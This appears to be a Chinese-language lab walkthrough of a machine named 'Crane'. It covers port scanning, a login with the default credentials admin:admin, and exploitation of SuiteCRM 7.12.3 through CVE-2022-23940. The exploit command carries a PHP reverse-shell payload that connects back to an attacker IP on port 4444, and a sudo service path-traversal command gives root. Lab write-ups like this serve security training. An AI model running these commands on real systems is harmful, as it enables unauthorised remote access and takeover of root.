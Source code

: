 ```yaml
---
description: Easy - Linux / SuiteCRM 7.12.3 / CVE-2022-23940 / NOPASSWD提权
---
```


# ✔️ Crane

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到4个端口：22 / 80 / 3306 / 33060

```bash
nmap -sC -sV -p- -oA crane 192.168.178.146 --open 
```

<figure><img src="../../.gitbook/assets/1 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，尝试弱口令成功：**admin : admin**

<figure><img src="../../.gitbook/assets/2 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 并查询到了当前正在运行的程序SuiteCRM的版本号：**v7.12.3**

<figure><img src="../../.gitbook/assets/6 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 查看/robots.txt文件，返现一个名为 **/ical\_server.php** 的php文件，将其下载到本地：

<figure><img src="../../.gitbook/assets/3 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据当前已知的程序及其版本号**SuiteCRM 7.12.3**，搜索到了公开的已知漏洞可以利用：**CVE-2022-23940**

<figure><img src="../../.gitbook/assets/7 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 下载该脚本，并执行：

```bash
python3 exploit.py -h http://192.168.178.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.240\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'" 

nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/10 (1) (1).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 成功获取到shell：

<figure><img src="../../.gitbook/assets/9 (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举，发现 **/usr/sbin/service**程序不需要密码即可以root身份运行：

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接利用该程序进行提权：

```bash
sudo /usr/sbin/service ../../../../../bin/bash
```

<figure><img src="../../.gitbook/assets/12 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>
